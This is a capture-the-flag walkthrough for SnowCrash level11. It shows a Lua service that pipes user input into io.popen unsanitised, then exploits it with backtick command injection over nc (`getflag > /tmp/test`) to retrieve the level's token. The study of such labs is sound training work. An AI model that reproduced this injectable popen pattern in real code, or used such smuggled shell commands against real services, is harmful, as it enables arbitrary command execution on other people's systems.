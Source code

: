 In the folder **home** there is a file **level11.lua** that contains :

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
	prog = io.popen("echo "..pass.." | sha1sum", "r")
	data = prog:read("*all")
	prog:close()
	data = string.sub(data, 1, 40)
	return data
end

while 1 do
	local client = server:accept()
	client:send("Password: ")
	client:settimeout(60)
	local l, err = client:receive()
	if not err then
		print("trying " .. l)
		local h = hash(l)
		if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			client:send("Erf nope..\n");
		else
			client:send("Gz you dumb*\n")
		end
	end
	client:close()
end
```

We observe that the program is launched on **127.0.0.1:5151**, so in order to be able to interact with it we use :
<pre><code>> nc 127.0.0.1 5151
Password:
Erf nope..</code></pre>

Looking at the program more closely, we realize that an injection is possible <code>io.popen("echo "..pass..." | sha1sum", "r")</code> because it executes the variable **pass**, which is our input.
Moreover the second part of the code is useless because no matter what the password is, the program ends with a simple message.
> The correct password is: **NotSoEasy** (add a -n in front to make it work)

We're trying :
<pre><code>> nc 127.0.0.1 5151
Password: `whoami > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
flag11
</code></pre>
> We store the result in a file because otherwise there is no display: it is not a <code>client:send()</code>

<pre><code>> nc 127.0.0.1 5151
Password: `getflag > /tmp/test`
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</code></pre>

<pre>
<code>> getflag</code>
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
</pre>